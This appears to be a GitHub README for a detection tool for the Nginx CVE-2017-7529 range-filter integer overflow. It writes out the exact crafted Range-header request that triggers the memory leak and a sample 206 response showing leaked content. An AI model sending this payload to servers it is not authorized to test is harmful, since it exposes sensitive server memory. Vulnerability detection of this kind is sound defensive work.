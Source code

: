 # Cve_Finder_2017-7529
The tool is used to detect whether a server is vulnerable to Nginx Remote Integer Overflow CVE (2017-7529)

## Nginix Remote Integer Overflow

Nginx CVE-2017-7529 Remote Integer Overflow Vulnerability. Description: Nginx versions since 0.5. 6 up to and including 1.13. 2 are vulnerable to integer overflow vulnerability in nginx range filter module resulting into leak of potentially sensitive information triggered by specially crafted request.The attacker sends a specially crafted header Range in HTTP Request which causes the vulnerable Nginx Server to overflow memory bytes of server or leaks its content.

The response code for detecting Nginx Remote Overflow is 206 and Partial Content is recieved in HTTP status line. 

### Request

 GET /domain HTTP/1.1
 Accept-Encoding: identity
 Range: bytes=-17208,-9223372036854758792
 Host: 127.0.0.1:8000
 Connection: close
 User-Agent: Python-urllib/2.7

## Response

 HTTP/1.1 206 Partial Content
 Server: nginx/1.13.1
 Date: Mon, 21 May 2020 06:51:52 GMT
 Content-Type: multipart/byteranges; boundary=00000000000000000002
 Connection: close
 Last-Modified: Mon, 17 Jul 2017 02:19:08 GMT
 ETag: "40c9-5547a060fdf00"
 X-Proxy-Cache: HIT
 --00000000000000000002
 Content-Type: text/html
 Content-Range: bytes -623-16584/16585

